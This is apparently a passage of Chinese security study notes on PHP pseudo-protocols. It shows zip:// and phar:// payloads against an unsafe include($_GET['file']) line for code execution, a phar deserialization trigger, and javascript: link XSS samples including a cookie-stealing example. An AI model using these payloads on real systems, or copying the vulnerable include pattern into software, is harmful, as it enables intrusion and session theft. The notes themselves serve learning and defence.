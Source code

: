 
### **6. `zip://` 和 `phar://` —— 文件解压缩利用**

##### **(1) `zip://`**

**用途**：读取 ZIP 文件内容。
**示例**：

```
zip:///var/www/uploads/evil.zip%23shell.php
```

**攻击场景**：

- **上传恶意 ZIP + 文件包含 RCE**：

  ```php
  include($_GET['file']);  // ?file=zip://uploads/evil.zip%23shell.php
  ```

##### **(2) `phar://`（更强大）**

**用途**：执行 ZIP/JAR/TAR 内的 PHP 代码
**示例**：

```
phar:///var/www/uploads/evil.phar/shell.php
```

**攻击场景**：

- **反序列化攻击（利用 `phar` 特性）**：

  ```php
  file_exists("phar://evil.phar");  // 触发反序列化
  ```

**防御**：

- 避免 `phar://` 反序列化攻击（如 `phar.readonly=On`）
- 检查文件扩展名

---

### (补)**`7.javascript:`** 

在浏览器地址栏或 `<a href>` 中执行 JS 代码

```html
<a href="javascript:alert('XSS')">点击触发 XSS</a>
```

**XSS（跨站脚本攻击）**

伪协议 `javascript:` 可被用于恶意代码注入：

```html
<a href="javascript:alert('XSS')">点我</a>
<!-- 攻击者可构造恶意链接： -->
http://example.com#javascript:stealCookie()
```
